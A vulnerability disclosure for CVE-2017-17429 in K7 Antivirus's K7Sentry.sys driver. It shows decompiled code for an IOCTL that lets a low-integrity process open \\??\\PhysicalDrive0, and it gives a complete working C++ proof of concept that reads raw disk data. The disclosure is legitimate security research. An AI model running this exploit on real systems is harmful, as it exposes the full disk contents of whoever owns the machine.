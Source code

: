 # CVE-2017-17429

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*

# Details
The control code 0x950026D8 ultimately allows you pass a string to IoCreateFileSpecifyDeviceObjectHint (from kernel mode) and the opened handle will be passed back to the calling process, and is a handle that can be used in that user mode process. If the calling thread is part of the administrator group it will return a RW handle, otherwise it will return a read-only handle.

However, this means that a LOW integrity process, can talk to the driver, and open a handle to \\??\\PhysicalDrive0 and have complete read access to the entire contents of the hard disk which is a Confidentiality issue.

```C++
switch ( dwIoControlCode )
{
    // ...
    case 0x950026D8:
        v9 = IoControl_0x950026D8_CreateFileIfAdmin(&stIoControlBuffer);
        goto LABEL_117;
```

```C++
int __stdcall IoControl_0x950026D8_CreateFileIfAdmin(IoControlBuffer *a1)
{
    // ...
    // Locals
    // ...

    dwInLength = a1->dwInputBufferLength;
    FileHandle = 0;
    if ( dwInLength >= 0x10 && a1->dwOutputBufferLength >= 4u )
    {
        pInputBuffer = (unk15 *)a1->pInputBuffer;
        dwSomeFlag = pInputBuffer->field_0;
        v4 = &pInputBuffer->pszSomething;
        if ( !*(&pInputBuffer->pszSomething + ((dwInLength - 6) >> 1)) )
        {
            if ( !(dwSomeFlag & 0x20000002) )
                // Take this jmp...
                goto LABEL_30;

            // ... removed for simplicity ...

            if ( bIsAdmin )
            {
            LABEL_30:
                // ... land here...
                RtlInitUnicodeString(&DestinationString, v4);
                oa.Length = 24;
                oa.RootDirectory = 0;
                oa.Attributes = 64;
                oa.ObjectName = &DestinationString; // This has come directly from the user
                oa.SecurityDescriptor = 0;
                oa.SecurityQualityOfService = 0;

                // ...
                // Setup the desired access based off various flags, we can only get FILE_GENERIC_READ
                // ...

                IoStatusBlock = 0;
                v13 = 0;
                CreateOptions = 2912;
                if ( dwSomeFlag & 0x20000000 )
                    CreateOptions = 7008;
                
                // VULN: This will open the file specified by the string in my input buffer and 
                // return the handle to the output buffer.
                if ( !IoCreateFileSpecifyDeviceObjectHint(
                        &FileHandle,
                        DesiredAccess,
                        &oa,
                        &IoStatusBlock,
                        0,
                        FILE_ATTRIBUTE_NORMAL,
                        ShareAccess,
                        1,
                        CreateOptions,
                        0,
                        0,
                        0,
                        0,
                        2048,
                        0)
                    && FileHandle
                    && FileHandle != -1 )
                {
                    // Handle passed back via output buffer.
                    *(_DWORD *)a1->pOutputBuffer = FileHandle;
                    *a1->pdwIoStatusInformation = 4;
                }
            }
        }
    }
    return 0;
}
```

# PoC Code

The following PoC code demonstrates this and uses this control code to get a handle to *\\??\\PhysicalDrive0* and then proceeds to read data from it to demonstrate it. This can be run in a LOW integrity process.

```C++
VOID RawDiskAccessFromLow()
{
	HANDLE 	hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
	BYTE arrInput[0x1000] = { 0 };
	BYTE arrOutput[0x1000] = { 0 };
	DWORD dwBytesReturned = 0;

	PDWORD pdwStart = (PDWORD)arrInput;
	*pdwStart = 1 | 0x10 | 0x20;
	wcscpy_s((WCHAR*)(arrInput + 4), 100, L"\\??\\PhysicalDrive0");

	if (!DeviceIoControl(hDevice, 0x950026D8, arrInput, sizeof(arrInput), arrOutput, sizeof(arrOutput), &dwBytesReturned, NULL))
	{
		printf("Error: DeviceIoControl 0x%08x\r\n", GetLastError());
		return;
	}

	DWORD dwTest = *((PDWORD)arrOutput);
	printf("Value: 0x%08x\r\n", dwTest);

	HANDLE hDrive = (HANDLE)dwTest;

	// Move it 256MB into the drive - probably a partition here
	if (SetFilePointer(hDrive, 0x10000000, NULL, FILE_BEGIN) == INVALID_SET_FILE_POINTER)
	{
		printf("Error: Couldn't set file pointer\r\n");
		return;
	}

	BYTE cluster[0x1000] = { 0 };

	for (DWORD i = 0; i < 0x10000; ++i)
	{
		if (!ReadFile(hDrive, cluster, sizeof(cluster), &dwBytesReturned, NULL) ||
			dwBytesReturned != sizeof(cluster))
		{
			printf("Error: ReadFile failed: 0x%08x\r\n", GetLastError());
			return;
		}
	}

	printf("\r\n");
}

```
